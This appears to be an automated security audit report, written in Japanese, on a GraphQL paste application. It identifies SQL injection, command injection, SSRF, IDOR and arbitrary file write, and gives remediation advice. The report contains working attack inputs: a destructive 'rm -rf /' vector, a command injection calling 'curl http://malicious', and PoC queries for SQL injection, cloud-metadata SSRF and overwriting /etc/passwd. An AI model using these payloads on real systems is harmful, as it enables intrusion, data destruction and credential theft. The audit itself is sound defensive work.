 # PAR Security Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `SQLI`
- `RCE`
- `SSRF`
- `IDOR`
- `AFO`

## PAR Policy Analysis

### Principals (データ源)

- **GraphQL argument 'filter'**: Untrusted
  - Context: Query.resolve_pastes
  - Risk Factors: SQLインジェクション
- **GraphQL argument 'arg'**: Untrusted
  - Context: Query.resolve_system_debug
  - Risk Factors: コマンドインジェクション
- **GraphQL args 'host','port','path','scheme'**: Untrusted
  - Context: Mutation.ImportPaste
  - Risk Factors: SSRF, コマンドインジェクション
- **GraphQL argument 'id'**: Untrusted
  - Context: Mutation.EditPaste/DeletePaste, Query.resolve_delete_all_pastes
  - Risk Factors: IDOR
- **GraphQL argument 'filename'**: Untrusted
  - Context: Mutation.UploadPaste
  - Risk Factors: ディレクトリトラバーサル,AFO

### Actions (セキュリティ制御)

- **Query.resolve_pastes**: Missing
  - Function: SQLクエリビルド
  - Weaknesses: 直接文字列連結によるSQLクエリ組立て
  - Bypass Vectors: ' OR '1'='1
- **Query.resolve_system_debug**: Missing
  - Function: シェルコマンド実行
  - Weaknesses: ユーザ入力を直接shellに渡す
  - Bypass Vectors: ; ls /, `rm -rf /`
- **Mutation.ImportPaste**: Insufficient
  - Function: 外部リソース取得
  - Weaknesses: 動的URLをcurlに渡す
  - Bypass Vectors: && curl http://malicious
- **Mutation.EditPaste/DeletePaste/delete_all_pastes**: Missing
  - Function: DB更新・削除
  - Weaknesses: 認可チェック欠如
  - Bypass Vectors: idパラメータ任意指定
- **Mutation.UploadPaste**: Missing
  - Function: ファイル保存
  - Weaknesses: ファイルパス検証欠如
  - Bypass Vectors: ../etc/passwd

### Resources (操作対象)

- **Pasteテーブル**: Medium
  - Operation: SELECT/UPDATE/DELETE
  - Protection: 
- **シェルコマンド実行環境**: Critical
  - Operation: EXEC
  - Protection: 
- **外部HTTPリクエスト**: Medium
  - Operation: FETCH
  - Protection: 
- **ファイルシステム**: High
  - Operation: WRITE
  - Protection: 

### Policy Violations

#### POL001: Untrusted input used directly in SQL query (SQL Injection)

- **Path**: Query.resolve_pastes
- **Severity**: high
- **Confidence**: 0.90

#### POL002: Untrusted input used in shell execution (RCE)

- **Path**: Query.resolve_system_debug, Mutation.ImportPaste
- **Severity**: critical
- **Confidence**: 0.90

#### POL003: Missing authorization check on resource manipulation (IDOR)

- **Path**: Mutation.EditPaste, Mutation.DeletePaste, Query.resolve_delete_all_pastes
- **Severity**: high
- **Confidence**: 0.80

#### POL004: Server-Side Request Forgery (SSRF) via uncontrolled curl

- **Path**: Mutation.ImportPaste
- **Severity**: critical
- **Confidence**: 0.80

#### POL005: Unvalidated file path allows arbitrary file write (AFO)

- **Path**: Mutation.UploadPaste
- **Severity**: high
- **Confidence**: 0.70

## 詳細解析

複数のGraphQLリゾルバにおいて、以下の深刻な脆弱性が確認されました。
1. SQLインジェクション (resolve_pastes)：ユーザ入力をフォーマット文字列で直接SQLに渡しているため、任意のSQL実行が可能。
2. リモートコード実行 (system_debug, ImportPaste)：引数をそのままシェルコマンドに渡しており、コマンドインジェクションが可能。
3. SSRF (ImportPaste)：任意のホスト・パスをcurl実行し、内部サービスへリクエスト可能。
4. IDOR/認可欠如 (EditPaste, DeletePaste, delete_all_pastes)：認証・認可チェックが無く、任意のPaste操作が可能。
5. 任意ファイル書き込み (UploadPaste)：ファイルパス検証なしにファイル保存しており、ディレクトリトラバーサルなど任意ファイル上書きが可能。

## PoC（概念実証コード）

```text
# SQLi PoC
query { pastes(filter:"' OR '1'='1") { id title } }

# RCE PoC
query { system_debug(arg:"1; ls /tmp") }

# SSRF PoC
mutation { importPaste(host:"169.254.169.254",port:80,path:"/latest/meta-data/",scheme:"http") { result } }

# IDOR PoC
mutation { deletePaste(id:1) { result } }

# AFO PoC
mutation { uploadPaste(filename:"../etc/passwd",content:"pwned") { result } }
```

## 修復ガイダンス

### Query.resolve_pastes

- **Required**: 常にパラメータ化されたクエリを使用
- **Guidance**: SQLAlchemyのfilter_byやバインド変数を使い、直接文字列連結を排除する
- **Priority**: high

### Query.resolve_system_debug & Mutation.ImportPaste

- **Required**: ユーザ入力のホワイトリスト検証またはエスケープ
- **Guidance**: シェルコマンド呼び出しを廃止し、安全なライブラリを用いるか、最低限厳格なホワイトリストで検証する
- **Priority**: critical

### Mutation.ImportPaste

- **Required**: SSRF防止のためのホスト検証
- **Guidance**: 許可された外部ドメインのホワイトリストチェックを実装する
- **Priority**: critical

### Mutation.EditPaste/DeletePaste/Query.resolve_delete_all_pastes

- **Required**: 認証・認可チェックを導入
- **Guidance**: 操作対象リソースの所有者確認や権限チェックを実装し、他者のリソース操作を防止する
- **Priority**: high

### Mutation.UploadPaste

- **Required**: アップロードパスのサニタイズ
- **Guidance**: ファイル名正規化・禁止文字除去・ディレクトリ制限を行い、パス渡しトラバーサルを防止する
- **Priority**: high

## 解析ノート

GraphQLリゾルバにおける直接文字列結合、未検証シェル呼び出し、認可欠如を重点的に洗い出し。SQLI、RCE、SSRF、IDOR、AFOの5種を特定し、各Principal-Action-Resource間の防御不足をPARモデルで整理。

